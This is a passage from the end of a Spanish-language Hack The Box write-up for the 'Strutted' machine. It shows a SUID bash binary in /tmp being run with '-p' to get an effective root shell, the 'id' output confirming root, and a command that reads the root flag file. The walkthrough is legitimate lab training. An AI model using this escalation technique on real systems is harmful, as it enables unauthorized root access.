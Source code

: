 Con el binario SUID en `/tmp`, accedo a una shell con privilegios de `root`.

```terminal
james@strutted:~$ /tmp/bash_root -p

bash_root-5.1# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),27(sudo),1000(james)

bash_root-5.1# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/644" target="_blank">***Litio7 has successfully solved Strutted from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
